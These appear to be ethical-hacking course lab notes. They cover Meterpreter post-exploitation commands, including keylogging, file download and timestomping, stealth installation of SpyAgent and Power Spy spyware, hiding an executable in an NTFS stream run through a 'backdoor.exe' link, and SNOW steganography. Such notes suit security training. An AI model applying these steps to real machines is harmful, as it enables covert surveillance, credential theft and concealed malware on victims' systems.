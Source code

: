 
**Post Exploitation Activities on Target**

Create secret.txt on Windows Desktop

Setup and run exploit like did it previous exercise

After meterpreter is successfully running, try these commands:

- ***sysinfo***
- ***ipconfig***
- ***getuid***
- ***pwd***
- ***ls***
- ***cat secret.txt***
- ***timestomp secret.txt -v*** | view modified, accessed, created time of file
- ***cd c:\*** à ***pwd*** à ***ls***
- ***download bootmgr*** | downloads the bootmgr file from c:\ to home directory of kali
- ***search -f “filename.ext”*** |here “pagefile.sys” | displays complete path of file
- ***keyscan\_start*** | to start keylogger
- ***keyscan\_dump*** | to dump keylogger results
- ***idletime*** | shows the time the target user has been away from keyboard
- ***shutdown*** | shutdown the victim machine


**SpyTech SpyAgent**

RDP to victim machine. Install SpyAgent from shared path

Start SpyAgent à Continue à Set password à Complete + Stealth Configuration à Load on Windows Startup à Start monitoring à CTRL+ALT+SHIFT+M to bring SpyAgent out of stealth mode


**Power Spy**

RDP to victim machine. Install Power Spy from shared path

Start Power Spy à Set passwordà Start monitoring + stealth mode à CTRL+ALT+X to bring Power Spy out of stealth mode


**Hiding file in NTFS stream**

Copy calc.exe from system32 dir.

Make c:\magic folder. Copy calc.exe inside it, and create a text file readme.txt Type ***type c:\magic\calc.exe > c:\magic\readme.txt:calc.exe***

Type ***mklink backdoor.exe readme.txt:calc.exe***

Execute ***backdoor.exe***


**SNOW Steganographic Nature Of Whitespace) Hiding Data Using White Space Steganography**

Create a text file readme.txt like this 

Hello world!!!!! --------------------------------

Copy it inside the SNOW folder Open cmd in the folder

Type ***snow -C -m "Secret message" -p "password" <original file name> <target file name>*** |-C compression, -m message string, -p password | **Hide method**
